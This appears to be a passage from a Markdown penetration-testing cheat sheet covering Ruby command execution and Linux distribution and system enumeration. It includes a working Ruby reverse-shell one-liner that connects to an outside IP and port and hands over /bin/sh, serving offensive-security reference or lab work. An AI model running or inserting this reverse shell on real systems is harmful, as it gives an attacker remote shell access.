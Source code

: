 #### Ruby Environment

**Availability Check:**
```bash
which ruby
ruby --version
```

**Ruby Exploits:**
```bash
# Command execution
ruby -e 'system("whoami")'

# Reverse shell
ruby -rsocket -e'f=TCPSocket.open("10.10.14.111",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Linux Distribution Specifics

### Package Managers by Distribution

| Distribution | Package Manager | Commands |
|--------------|-----------------|----------|
| **Ubuntu/Debian** | apt | `apt update`, `apt install` |
| **CentOS/RHEL** | yum/dnf | `yum install`, `dnf install` |
| **Fedora** | dnf | `dnf install`, `dnf update` |
| **SUSE** | zypper | `zypper install`, `zypper update` |
| **Arch Linux** | pacman | `pacman -S`, `pacman -Syu` |
| **Alpine** | apk | `apk add`, `apk update` |

### Distribution Detection

**OS Release Information:**
```bash
cat /etc/os-release
cat /etc/*-release
lsb_release -a
```

**Kernel Information:**
```bash
uname -a
cat /proc/version
hostnamectl
```

**System Information:**
```bash
cat /etc/issue
cat /etc/motd
```
